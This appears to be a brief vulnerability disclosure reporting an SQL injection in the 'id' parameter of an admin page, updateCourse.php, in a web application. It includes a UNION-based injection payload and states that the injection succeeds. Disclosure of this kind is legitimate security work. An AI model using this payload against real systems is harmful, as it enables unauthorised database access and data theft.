 BUG_Author:hukai

Vulnerability File: /CEE/adminpanel/admin/facebox_modal/updateCourse.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-2' union all select null,concat(0x76777879,0x52535556),null-- -

There is sql injection, and the UNION query is successful

![image](https://github.com/sushanburanxisha/cve/blob/main/sql1.png)
